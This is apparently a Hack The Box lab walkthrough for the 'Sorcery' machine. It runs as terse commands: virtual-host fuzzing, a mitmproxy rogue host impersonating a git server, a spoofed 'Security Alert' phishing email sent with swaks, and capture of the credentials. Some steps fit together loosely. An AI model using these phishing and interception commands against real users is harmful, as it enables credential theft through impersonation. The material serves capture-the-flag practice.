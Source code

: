 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb</span></code></pre>

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>

This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*
